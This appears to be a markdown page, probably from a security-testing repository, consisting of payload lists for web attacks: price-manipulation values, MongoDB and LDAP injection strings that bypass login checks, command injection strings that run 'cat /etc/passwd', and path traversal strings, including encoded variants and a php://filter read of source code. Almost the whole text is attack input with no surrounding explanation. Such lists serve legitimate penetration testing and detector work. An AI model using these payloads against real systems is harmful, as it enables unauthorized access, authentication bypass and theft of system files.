 ### Business Logic Payloads
```javascript
// Price manipulation
{ price: -1, quantity: 1 }
{ price: 0, quantity: 1 }
{ price: 0.01, quantity: 999999 }

// Race condition testing
// Multiple concurrent requests to test race conditions
```

### NoSQL Injection Payloads
```javascript
// MongoDB injection
'{"$ne": null}'
'{"$gt": ""}'
'{"$regex": ".*"}'
'{"$where": "this.username == this.password"}'
'{"$or": [{"username": "admin"}, {"username": "administrator"}]}'
```

### LDAP Injection Payloads
```javascript
'*'
'*)(uid=*))(|(uid=*'
'*)(|(password=*'
'*)(|(objectClass=*'
'admin)(&(password=*'
```

### Command Injection Payloads
```javascript
'; ls'
'| ls'
'& ls'
'` ls `'
'$( ls )'
'; cat /etc/passwd'
'| cat /etc/passwd'
'& cat /etc/passwd'
```

### Path Traversal Payloads
```javascript
'../../../etc/passwd'
'..\\..\\..\\windows\\system32\\drivers\\etc\\hosts'
'....//....//....//etc/passwd'
'..%2F..%2F..%2Fetc%2Fpasswd'
'..%252F..%252F..%252Fetc%252Fpasswd'
'/etc/passwd'
'C:\\windows\\system32\\drivers\\etc\\hosts'
'file:///etc/passwd'
'php://filter/read=convert.base64-encode/resource=index.php'
```
